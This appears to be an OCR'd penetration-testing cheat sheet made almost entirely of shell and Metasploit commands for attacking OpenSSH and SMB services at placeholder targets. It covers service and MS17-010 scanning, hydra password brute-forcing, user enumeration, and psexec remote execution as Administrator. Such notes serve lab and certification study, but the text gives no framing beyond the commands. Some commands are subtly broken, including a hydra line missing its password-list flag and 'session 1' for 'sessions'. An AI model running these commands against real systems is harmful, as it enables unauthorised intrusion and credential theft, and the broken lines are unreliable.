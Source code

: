 **OPENSSH**

```bash
# Targeting OPENSSH
nmap -sV -sC -p 22 <TARGET_IP>

searchsploit OpenSSH 7.1

## Brute-force SSH
hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ssh
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ssh

## SSH Login with <USER>
ssh <USER>@<TARGET_IP>

## Win
bash
net localgroup administrators
whoami /priv

# msfconsole
use auxiliary/scanner/ssh/ssh_login
setg RHOST <TARGET_IP>
setg RHOSTS <TARGET_IP>
set USERNAME <USER>
set PASSWORD <PW>
run
session 1
# CTRL+Z to background
sessions -u 1
```

**SMB**

```bash
# Targeting SMB
nmap -sV -sC -p 445 <TARGET_IP>
nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>

## Brute-force SMB
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> smb
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> smb

## Enumeration
smbclient -L <TARGET_IP> -U <USER>
smbmap -u <USER> -p <PW> -H <TARGET_IP>
enum4linux -u <USER> -p <PW> -U <TARGET_IP>

## msfconsole
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS <TARGET_IP>
set SMBUser <USER>
set SMBPass <PW>
run

## SMB Login with <USER>
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
python3 psexec.py Administrator@<TARGET_IP>
python3 psexec.py <USER>@<TARGET_IP>

# msfconsole - Meterpreter
use exploit/windows/smb/psexec
set RHOSTS <TARGET_IP>
```